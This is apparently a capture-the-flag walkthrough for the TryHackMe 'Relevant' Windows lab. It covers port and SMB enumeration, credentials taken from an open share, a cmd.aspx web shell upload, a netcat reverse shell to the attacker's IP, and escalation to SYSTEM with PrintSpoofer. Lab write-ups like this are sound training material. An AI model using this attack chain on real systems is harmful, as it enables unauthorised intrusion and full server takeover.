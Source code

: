 ```yaml
---
layout: post
title:  "[THM] Relevant"
date:   2021-05-14 7:21:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, windows, Tryhackme, Walkthrough, SeImpersonatePrivilege]
categories: Tryhackme
---
```


It is an interesting windows machine in the initial part and in the climbing that can present a challenge.
---

## Enumeration
*Ports:*
```plaintext
80/tcp   --> Microsoft IIS httpd 10.0
135/tcp  --> Microsoft Windows RPC
139/tcp  --> Microsoft Windows netbios-ssn
445/tcp  --> Windows Server 2016 Standard Evaluation 14393 
3389/tcp --> Microsoft Terminal Services
```
### Nmap
*To scan all ports quickly:*
```bash
nmap -p- -sT --min-rate 5000  10.10.89.170 -oG Scanport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 20:26 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.97% done; ETC: 20:27 (0:00:40 remaining)
Nmap scan report for 10.10.89.170
Host is up (0.15s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 40.94 seconds
```

*More exhaustive scanning:*

```bash
# Nmap 7.91 scan initiated Thu May 13 20:35:05 2021 as: nmap -sC -sV -p80,135,139,445,3389 -oN Scanport2 10.10.89.170
Nmap scan report for 10.10.89.170
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-13T23:35:20+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-05-12T23:22:38
|_Not valid after:  2021-11-11T23:22:38
|_ssl-date: 2021-05-13T23:36:01+00:00; -59m59s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 24m00s, deviation: 3h07m50s, median: -59m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-13T16:35:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-13T23:35:21
|_  start_date: 2021-05-13T23:23:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 13 20:36:01 2021 -- 1 IP address (1 host up) scanned in 56.40 seconds
```

### Masscan

*Here I make use of another utility to confirm what I have and rule out false positives:*

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.173.246
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-05-14 21:58:30 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 445/tcp on 10.10.173.246                                  
Discovered open port 3389/tcp on 10.10.173.246                                 
Discovered open port 49667/tcp on 10.10.173.246
Discovered open port 49663/tcp on 10.10.173.246
```

### SMB enumeration

Compatible folder of interest: *nt4wrksv*

```json
smbmap -H 10.10.89.170 -u benji -p benji                                                 3s
[+] Guest session       IP: 10.10.89.170:445    Name: Relevant                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        nt4wrksv                                                READ, WRITE
```

### Credentials

These were obtained from the shared folder nt4wrksv

```plaintext
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

## SMB upload cmd.aspx

The idea is that if you go to the web: http://ip:49663/nt4wrksv/passwords.txt you can visualize the files that are in the smb. So having this clear the idea is to upload a cmd.aspx. (First I tried with the cmd.asp but it did not work and then I moved to the cmd.aspx).

We see how a cmd is displayed:
http://ip:49663/nt4wrksv/cmd.aspx 

## Shell inicial

We run an smb server and then pull a shared file which is nc.exe and launch a reverse:

```bash
\\10.9.206.201\share\nc.exe 10.9.206.201 4444 -e cmd.exe
```

```bash
listening on [any] 4444 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.173.246] 49887
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```


## PrivEsc

The first command should always be ```whoami /priv``` to know the permissions that user has:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Here highlights the famous SeImpersonatePrivilege, for the exploitation of this privilege is done by pulling this [binary](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

We execute the binary from bob's directory:

```bash
\\10.9.206.201\share\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

MACHINE PWNED!!!!!

<p align="center">
<img src="https://tenor.com/view/typing-petty-fast-cloudy-with-a-chance-of-meatballs-flint-lockwood-gif-4907824.gif" width="300" height="300" />
</p>
